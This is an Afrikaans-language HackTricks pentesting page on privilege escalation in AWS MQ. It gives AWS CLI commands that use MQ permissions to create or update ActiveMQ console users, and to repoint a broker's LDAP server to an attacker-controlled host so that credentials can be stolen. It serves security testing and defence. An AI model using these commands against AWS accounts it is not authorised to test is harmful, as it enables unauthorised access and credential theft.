 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

Vir meer inligting oor MQ, kyk:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Met daardie toestemmings kan jy **'n nuwe gebruiker in 'n ActimeMQ broker skep** (dit werk nie in RabbitMQ nie):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potensiële Impak:** Toegang tot sensitiewe inligting deur ActiveMQ te navigeer

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Met daardie toestemmings kan jy **'n nuwe gebruiker in 'n ActiveMQ broker skep** (dit werk nie in RabbitMQ nie):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potensiële Impak:** Toegang tot sensitiewe inligting deur ActiveMQ te navigeer

### `mq:ListBrokers`, `mq:UpdateBroker`

As 'n broker **LDAP** vir outorisering met **ActiveMQ** gebruik. Dit is moontlik om die **konfigurasie** van die LDAP-bediener wat gebruik word, te **verander** na **een wat deur die aanvaller beheer word**. Op hierdie manier sal die aanvaller in staat wees om **alle geloofsbriewe wat deur LDAP gestuur word, te steel**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
As jy op een of ander manier die oorspronklike geloofsbriewe wat deur ActiveMQ gebruik is, kan vind, kan jy 'n MitM uitvoer, die geloofsbriewe steel, dit in die oorspronklike bediener gebruik, en die antwoord stuur (misschien net die gesteelde geloofsbriewe hergebruik, kan jy dit doen).

**Potensiële Impak:** Steel ActiveMQ geloofsbriewe

{{#include ../../../banners/hacktricks-training.md}}
